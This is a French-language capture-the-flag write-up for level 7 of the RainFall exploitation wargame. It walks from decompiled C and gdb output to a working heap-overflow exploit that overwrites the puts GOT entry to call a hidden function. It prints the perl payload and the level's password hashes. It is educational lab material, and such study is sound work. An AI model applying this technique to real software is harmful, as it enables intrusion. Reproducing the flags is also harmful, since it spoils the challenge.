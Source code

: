 # Level 7

pass : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Sources :

```c=
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <time.h>

char c[80];  // 0x00000050

void	m() {
	printf("%s - %d", c, time(0));
}

int		main(int ac, char **av) {
	// void *malloc(size_t size);
	char **a;  // esp+0x1c
	a = malloc(2 * sizeof(char *));
	a[0] = 1;
	a[1] = malloc(8);

	char **b;  // esp+0x18
	b = malloc(2 * sizeof(char *));
	b[0] = 2;
	b[1] = malloc(8);

	// char *strcpy(char *dest, const char *src);
	strcpy(a[1], av[1]);
	strcpy(b[1], av[2]);

	// FILE *fopen(const char *pathname, const char *mode);
	FILE *file;
	file = fopen("/home/user/level8/.pass", "r");

	// char *fgets(char *s, int size, FILE *stream);
	fgets(c, 68, file);  // 0x44

	// 0x8048703 on .rodata segment
	puts("~~");

	return (0);
}
```

## Recherche :

On veut remplacer l'appel de `puts("~~")` par `m()`

Pour faire ça, on va exploiter les deux appels à `strcpy`.
En effet, `strcpy` copy à l'adresse indiqué par le premier élément la chaine contenue dans le second élément.

Ce qu'on veut donc, c'est `&puts` devienne `&m`.

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```

`m` se trouve à l'adresse **`0x080484f4`**

```gdb
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

Pour `puts`, c'est un peu plus délicat, dans un `jmp` est fait, on va donc choisir directement l'adresse du `jmp`, soit **`0x08049928`**.

Ça, c'est ce que doit faire le second `strcpy`.
`strcpy(b[1], av[2]);`
On le remplacera par `b[1]` = `0x08049928` (`puts`)
`av[2]` = `0x080484f4` (`m`)

Le premier lui fait actuellement :
`strcpy(a[1], av[1]);`
on veut faire en sorte d'écrire dans `b[1]`, et y mettre la valeure de l'adresse de `puts`.
Or `a` et `b` sont contingent en mémoire, donc si on écrit suffisement loin dans a, on se mettra à écrire dans b.


```gdb
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd

Breakpoint 1, 0x080485a0 in main ()
(gdb) ni
0x080485a5 in main ()
(gdb) x/x $esp+0x18
0xbffff708:     0x0804a028
(gdb) x/2x 0x0804a028
0x804a028:      0x54535251      0x58575655
```

Ici, on voit bien que le premier agument `ABCDEFGHIJKLMNOPQRSTUVWXYZ` a été écrit dans `b` (`$esp+0x18`), et du coup à partir de la lettre 'U' (`0x55`), 20eme lettre dans `b[1]`.

Parfait !
On a tout pour notre script :
`./level7 $(perl -e 'print "A"x(20)."\x28\x99\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')`

## Exploit :

```bash
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x(20)."\x28\x99\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1591626293
```
